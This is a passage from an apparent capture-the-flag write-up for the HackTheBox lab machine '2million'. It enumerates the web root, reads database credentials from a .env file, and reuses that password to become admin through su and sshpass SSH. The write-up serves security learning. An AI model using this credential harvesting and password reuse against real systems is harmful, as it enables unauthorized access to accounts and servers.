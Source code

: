 ### Shell as admin <a href="#shell-as-admin" id="shell-as-admin"></a>

#### Enumeration <a href="#enumeration" id="enumeration"></a>

The web root is in the default location, `/var/www/html`:

```
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  2 22:30 .
drwxr-xr-x  3 root root 4096 May 26 20:34 ..
drwxr-xr-x  2 root root 4096 May 23 19:37 assets
drwxr-xr-x  2 root root 4096 Jun  2 16:30 controllers
drwxr-xr-x  5 root root 4096 May 29 12:21 css
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
drwxr-xr-x  2 root root 4096 May 25 17:57 fonts
drwxr-xr-x  2 root root 4096 May 25 16:23 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  1 20:15 js
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  2 root root 4096 Jun  2 16:15 views
drwxr-xr-x  5 root root 4096 Jun  2 22:30 VPN
```

`index.php` defines a bunch of routes for the various pages and endpoints used on the website.

There’s a `.env` file as well. This file is commonly used in PHP web frame works to set environment variables for use by the application. This application is more faking a `.env` file rather than actually using it in a framework, but the `.env` file still looks the same:

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

#### su / SSH <a href="#su--ssh" id="su--ssh"></a>

That password works for both `su` as admin:

```
www-data@2million:~/html$ su - admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$
```

And SSH:

```
oxdf@hacky$ sshpass -p SuperDuperPass123 ssh admin@2million.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
...[snip]...
You have mail.
...[snip]...
admin@2million:~$
```
